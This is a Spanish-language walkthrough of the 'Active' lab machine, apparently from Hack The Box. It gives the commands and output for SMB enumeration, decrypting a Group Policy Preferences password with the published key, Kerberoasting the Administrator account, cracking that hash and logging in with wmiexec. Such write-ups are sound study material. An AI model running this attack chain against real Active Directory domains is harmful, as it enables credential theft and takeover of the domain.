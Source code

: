 10.10.10.100 - Active
---------------------
![Active](https://user-images.githubusercontent.com/96772264/202671425-74af675c-48ed-4cd1-ae14-5118d4d503c0.png)

# Part 1: Enumeración del sistema

```console
└─$ nmap -T5 -Pn -v 10.10.10.100 # -> 53,88,139,135,389,445,464,593,636,3269,3268,5722,9389
└─$ nmap -sCV -T5 10.10.10.100 -Pn -v -p389,445,464,593,636,3269,3268,5722,9389
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
3269/tcp open  tcpwrapped
5722/tcp open  msrpc         Microsoft Windows RPC
9389/tcp open  mc-nmf        .NET Message Framing
```

Tenemos un directorio activo por los puertos que hemos encontrado, pero lo mejor será encontrar primero algún usaurio para empezar.  
 - Aunque tengamos el puerto 135 no hay mucha suerte: ```rpcclient -U "" 10.10.10.100 -N # NT_STATUS_ACCESS_DENIED```  
 - El puerto 53, no encontramos nada revelavente con el comando **dig**  

-----------------------------------------------
# Part 2: Obteniendo la clave gpp de un usaurio

Tenemos el puerto 445 (smb) del que podemos obtener archivos:
```console
└─$ crackmapexec smb 10.10.10.100
SMB   10.10.10.100  445  DC  [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True)
# Si pone que esta Firmado (signing:True) no se podrán hacer ataques SMBrelays
└─$ smbclient -L //10.10.10.100/ -N
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
└─$ smbclient //10.10.10.100/Replication -N
Anonymous login successful
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
Nos ha creado la carpeta Active.htb con todos los recursos:

```console
└─$ tree 
.
├── DfsrPrivate
│   ├── ConflictAndDeleted
│   ├── Deleted
│   └── Installing
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── Group Policy
│   │   │   └── GPE.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Preferences
│   │   │   │   └── Groups
│   │   │   │       └── Groups.xml
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts
```
Hay un montón de cosas, pero el recurso **"Groups.xml"** es lo critico. Que esté este recurso significa que esto es una copia del SYSVOL
(al original no teniamos acceso pero a esto si). En este archivo está la contraseña encriptada del administrador del sistema, 
(la encriptacion es AES-256, un algoritmo muy fuerte).

El asunto esque si tenemos el hash (cpassword) en el groups.xml podemos romper dicho hash muy rapidamente con el cmando gpp ya que microsoft publico la clave de
dicho algoritmo en 2012:
>  Algoritmo -> llave (en el script gpp-decrypt) + texto cifrado -> texto_descrifrado      
>  key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"      
>  texto_crifrado = campo cpassword del Groups.xml    

```console
└─$ cd /Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
└─$ cat Groups.xml
(...)
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS" # -> Para este usario
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18  # Esto es la contraseña
```

Vamos a validar este usario:
```
└─$ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStro
```
Con SMBmap puede acceder ahora con credenciales, a la user.txt 
```console
└─$ smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --download Users/SVC_TGS/Desktop/user.txt
```
-----------------------------------------------
# Part 3: Enumeración de usaurios RPC

Ahora podemos acceder al rpc porque ya tenemos creds.
```console
└─$ rpcclient 10.10.10.100 -U "SVC_TGS%GPPstillStandingStrong2k18"
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4] 
user:[Guest] rid:[0x1f5]    # -> Usuario invitado, por defecto en todos los sistemas
user:[krbtgt] rid:[0x1f6]   # -> usuario creado por el kerberos
user:[SVC_TGS] rid:[0x44f]  # -> Nuestro usaurio actual
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
rpcclient $> querygroupmem 0x200
	rid:[0x1f4] attr:[0x7]
rpcclient $> queryuser 0x1f4
	User Name   :	Administrator
rpcclient $> querydispinfo
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```

-----------------------------------------------
# Part 4: Obteniendo el hash del admin por kerberos

Nada interesante, ahora hay que probar con el puerto 88 (kerberos)

```console
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
-------- # Todo el hash del admin # ---------------------------
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Ticketmaster1968 (?)
└─$ impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```




